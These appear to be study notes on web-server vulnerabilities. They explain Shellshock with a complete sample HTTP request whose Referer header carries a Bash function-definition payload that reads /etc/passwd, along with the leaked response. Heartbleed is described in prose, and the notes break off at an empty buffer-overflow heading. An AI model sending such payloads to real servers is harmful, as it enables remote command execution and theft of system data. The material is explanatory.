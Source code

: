 # Shell shock
Shellshock is a security bug causing Bash to execute commands from  environment variables unintentionally. In other words if exploited the  vulnerability allows the attacker to remotely issue commands on the  server, also known as remote code execution. Even though Bash is not an  internet-facing service, many internet and network services such as web  servers use environment variables to communicate with the server's  operating system.
Since the environment variables are not sanitized properly by Bash  before being executed, the attacker can send commands to the server  through HTTP requests and get them executed by the web server operating  system. The shellshock vulnerability

Many are concerned because the Shellshock vulnerability is very easy  to exploit through web applications running on vulnerable servers as  shown in the following example. The attacker crafts an HTTP request that  contains the below headers:

ET http://shellshock.testsparker.com/cgi-bin/netsparker.cgi HTTP/1.1
User-Agent: Netsparker
Host: shellshock.testsparker.com
Referer: () { :;}; echo "NS:" $(</etc/passwd)
Once the target server receives the HTTP request with the above  headers, it responds by sending the content of the file /etc/passwd, as  seen in the below HTTP response:
HTTP/1.0 200 OK
Server: nginx/1.2.1
Date: Fri, 26 Sep 2014 11:22:43 GMT
Content-Type: text/html
NS: root:x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/bin/sh
bin: x:2:2:bin:/bin:/bin/sh
sys: x:3:3:sys:/dev:/bin/sh
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/bin/sh
man: x:6:12:man:/var/cache/man:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
mail: x:8:8:mail:/var/mail:/bin/sh
news: x:9:9:news:/var/spool/news:/bin/sh
uucp: x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy: x:13:13:proxy:/bin:/bin/sh
www-data: x:33:33:www-data:/var/www:/bin/sh
backup: x:34:34:backup:/var/backups:/bin/sh
list: x:38:38:Mailing List Manager:/var/list:/bin/sh
irc: x:39:39:ircd:/var/run/ircd:/bin/sh
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid: x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim: x:101:103::/var/spool/exim4:/bin/false
messagebus: x:102:106::/var/run/dbus:/bin/false
avahi: x:103:107:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
sshd: x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql: x:105:111:MySQL Server,,,:/nonexistent:/bin/false
Connection: close

===> msf exploit can be used

# Heartbleed
The heartbleed bug is a serious vulnerability in the popular OpenSSL library, which is used to provide SSL functionality on web servers. The vulnerability allows malicious hackers to steal private information. Once exploited the malicious attacker can access sections of the web server's memory where sensitive data such as users' passwords are stored
This also means that the malicious attacker can retrieve the web server's private key hence can decrypt any encrypted information sent to the websites and web applications running on the web server itself.


# BufferOverflow